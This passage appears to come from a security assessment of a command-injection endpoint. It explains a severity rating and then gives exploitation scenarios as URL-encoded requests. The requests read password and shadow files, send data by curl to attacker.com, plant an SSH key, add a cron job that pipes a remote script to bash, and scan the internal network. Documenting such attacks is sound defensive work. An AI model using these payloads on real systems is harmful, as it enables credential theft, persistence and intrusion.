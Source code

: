 The severity is reduced from Critical to Medium primarily due to the restricted attack vector (requiring internal network access with VPN) and the need for administrative credentials, which significantly limits the exploitation potential compared to an internet-accessible, unauthenticated endpoint.

# Exploitation Scenarios
**Scenario 1: Malicious Administrator**

A disgruntled system administrator with valid administrative credentials and VPN access exploits the vulnerability to exfiltrate sensitive data:

```
GET /execute?cmd=cat%20/etc/passwd%3B%20cat%20/etc/shadow%3B%20find%20/%20-name%20%22*.conf%22%20-type%20f%20-exec%20grep%20-l%20password%20%7B%7D%20\%3B

```

This command chain reads system user information, attempts to access password hashes, and searches for configuration files containing password strings. The attacker then exfiltrates this data:

```
GET /execute?cmd=cat%20/path/to/sensitive/file%20|%20curl%20-X%20POST%20-d%20@-%20https://attacker.com/collector

```

**Scenario 2: Compromised Admin Credentials**

An external attacker who has obtained administrative credentials through phishing and has VPN access establishes persistence:

```
GET /execute?cmd=mkdir%20-p%20~/.ssh%20%26%26%20echo%20%22ssh-rsa%20AAAA...%22%20%3E%3E%20~/.ssh/authorized_keys

```

This adds the attacker's SSH key to the authorized keys file. Alternatively, they could create a cron job for a reverse shell:

```
GET /execute?cmd=(crontab%20-l%202%3E/dev/null%3B%20echo%20%22*%20*%20*%20*%20*%20curl%20-s%20https://attacker.com/payload.sh%20|%20bash%22)%20|%20crontab%20-

```

**Scenario 3: Insider Threat Network Exploration**

A malicious insider with administrator access uses the vulnerability to explore the internal network:

```
GET /execute?cmd=ip%20addr%20show%3B%20netstat%20-tuln%3B%20ping%20-c%201%20192.168.1.1

```

The attacker identifies other systems and services, then attempts lateral movement:

```
GET /execute?cmd=nmap%20-sT%20-p%2022,80,443,3306,5432%20192.168.1.0/24%20--open

```
